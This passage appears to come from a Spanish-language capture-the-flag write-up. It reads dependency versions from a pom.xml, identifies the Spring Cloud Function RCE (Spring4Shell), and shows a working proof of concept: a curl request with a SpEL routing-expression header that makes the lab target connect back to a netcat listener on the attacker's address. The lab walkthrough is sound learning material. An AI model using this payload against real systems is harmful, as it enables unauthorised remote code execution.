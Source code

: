 ```
			<artifactId>webjars-locator-core</artifactId>
		</dependency>

	</dependencies>
	<build>
		<plugins>
			<plugin>
				<groupId>org.springframework.boot</groupId>
				<artifactId>spring-boot-maven-plugin</artifactId>
				<version>${parent.version}</version>
			</plugin>
		</plugins>
		<finalName>spring-webapp</finalName>
	</build>

</project>
```

Al inspeccionar el archivo pom.xml se observa que se esta ejecutando la version 2.6.5 de Spring Boot, Java version 11, javax.activation 1.2.0, spring-cloud-function-web 3.2.2, etc. Una busqueda posterior con la informacion anteriormente mencionada revela que la version 2.6.5 de Spring Boot es vulnerable a RCE (Spring4Shell). Esto se puede comprobar con un PoC.
```
# terminal 1
$ nc -lvnp 1234
listening on [any] 1234 ...

# terminal 2
$ curl -X POST  http://10.10.11.204:8080/functionRouter -H 'spring.cloud.function.routing-expression:T(java.lang.Runtime).getRuntime().exec("nc <our_ip_address> 1234")' --data-raw 'data' -v
Note: Unnecessary use of -X or --request, POST is already inferred.
*   Trying 10.10.11.204:8080...
* Connected to 10.10.11.204 (10.10.11.204) port 8080 (#0)
> POST /functionRouter HTTP/1.1
> Host: 10.10.11.204:8080
> User-Agent: curl/7.88.1
> Accept: */*
> spring.cloud.function.routing-expression:T(java.lang.Runtime).getRuntime().exec("nc <our_ip_address> 1234")
> Content-Length: 4
> Content-Type: application/x-www-form-urlencoded
> 
< HTTP/1.1 500 
< Content-Type: application/json
< Transfer-Encoding: chunked
< Date: Wed, 03 May 2023 19:04:02 GMT
< Connection: close
< 
* Closing connection 0
{"timestamp":"2023-05-03T19:04:02.360+00:00","status":500,"error":"Internal Server Error","message":"EL1001E: Type conversion problem, cannot convert from java.lang.ProcessImpl to java.lang.String","path":"/functionRouter"} 

# terminal 1
$ nc -lvnp 1234
listening on [any] 1234 ...
connect to [our_ip_address] from (UNKNOWN) [10.10.11.204] 34004
```
